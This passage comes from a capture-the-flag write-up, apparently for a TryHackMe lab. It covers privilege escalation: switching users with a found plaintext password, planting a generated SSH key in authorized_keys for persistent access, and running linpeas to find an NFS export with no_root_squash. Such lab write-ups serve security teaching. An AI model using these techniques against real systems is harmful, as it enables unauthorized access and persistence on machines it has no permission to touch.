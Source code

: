 ## Privilege Escalation

I used the credentials of paradox to switch to his user

```console
sh-4.4$ su paradox
su paradox
Password: ShibesAreGreat123

whoami
paradox
```

I used ssh-keygen to generate an ssh key pair and used it to ssh into the machine as paradox with a proper shell

```console
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/paradox/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/paradox/.ssh/id_rsa.
Your public key has been saved in /home/paradox/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:Lj7X/+9IG4AFso38v04btU/gvwfpNXnHVaaoCse+Qm8 paradox@localhost.localdomain
The key's randomart image is:
+---[RSA 3072]----+
|        . .      |
|       . = .    o|
|        + . .. o.|
|         . o. . .|
|       .S o.. ooo|
|      o.o .. +o==|
|     ..=.o  +.=o=|
|     .o.E .. =.B.|
|      .=.. o=.++B|
+----[SHA256]-----+
mv id_rsa.pub authorized_keys
```

```console
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# ssh -i id_rsa_paradox paradox@10.10.153.169
Last login: Tue Apr 20 20:43:59 2021 from 10.8.169.153
[paradox@localhost ~]$
```

Running linpeas.sh I got an interesting [NFS Share Exploit](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)

```
[+] NFS exports?
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```
